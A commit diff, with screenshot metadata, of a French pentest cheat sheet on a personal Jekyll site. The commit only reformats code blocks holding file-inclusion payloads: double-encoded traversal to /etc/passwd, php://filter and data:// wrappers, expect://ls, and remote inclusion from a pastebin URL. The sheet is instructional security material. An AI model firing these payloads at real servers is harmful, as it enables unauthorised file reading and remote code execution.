

Before and after one commit to fhbapt/fhbapt.github.io, a Jekyll site: the page built from _pages/cheatseet.md, in a window 1280 px wide and 1400 px high, scrolled down 2207 px. Shown: the top 1368 px of the window at 96% size, without its empty margins (207-1163 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3381 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Update cheatseet.md

````diff
--- a/_pages/cheatseet.md
+++ b/_pages/cheatseet.md
@@ -100,25 +100,36 @@ Les fichiers intéressants :
 
 **Double Encoding**
 
-```https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd```
+```
+https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd
+```
 
-```https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00```
+```
+https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00
+```
 
 **Wrapper php://filter**
 
-```https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php```
+```
+https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php
+```
 
-```http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php```
+```
+http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
+```
 
 **Wrapper data://**
 
-```https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==```
-
-La payload est ```<?php phpinfo(); ?>```
+```
+https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
+La payload est <?php phpinfo(); ?>
+```
 
 **Wrapper expect://**
 
-```https://fhbapt.github.io/?page=expect://ls```
+```
+https://fhbapt.github.io/?page=expect://ls
+```
 
 ### RFI (Remote File Inclusion) <a name="rfi"></a>
 
@@ -132,4 +143,6 @@ Exemple de RFI :
 
 Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:
 
-```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG```
+```
+https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG
+```
````
